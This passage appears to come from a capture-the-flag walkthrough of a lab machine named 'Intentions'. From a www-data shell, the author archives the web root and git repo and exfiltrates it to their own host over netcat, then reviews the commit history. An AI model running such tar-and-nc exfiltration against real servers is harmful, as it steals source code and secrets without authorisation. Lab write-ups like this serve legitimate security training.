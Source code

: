 ```
-rw-r--r--   1 root     root        722 Feb  2  2023 webpack.mix.js

```

There is a Git repo (the `.git` directory) that is readable but not writable by www-data. The permissions on the directory don’t allow www-data to run `git` commands:

```

www-data@intentions:~/html/intentions$ git log                                                          
fatal: detected dubious ownership in repository at '/var/www/html/intentions'
To add an exception for this directory, call:

        git config --global --add safe.directory /var/www/html/intentions
www-data@intentions:~/html/intentions$ git config --global --add safe.directory /var/www/html/intentions
error: could not lock config file /var/www/.gitconfig: Permission denied

```

#### Git Repo

I’ll bundle the entire website (for low bandwidth situations the `.git` folder would do):

```

www-data@intentions:~/html/intentions$ tar -cf /tmp/site.tar .

```

I’ll exfil that back over `nc`:

```

www-data@intentions:~/html/intentions$ cat /tmp/site.tar | nc 10.10.14.6 443

```

On my host:

```

oxdf@hacky$ nc -lnvp 443 > site.tar
Listening on 0.0.0.0 443
Connection received on 10.10.11.220 47024
^C
oxdf@hacky$ tar xf site.tar

```

The repo has four commits:

```

oxdf@hacky$ git log --oneline 
1f29dfd (HEAD -> master) Fix webpack for production
f7c903a Test cases did not work on steve's local database, switching to user factory per his advice
36b4287 Adding test cases for the API!
d7ef022 Initial v2 commit

```
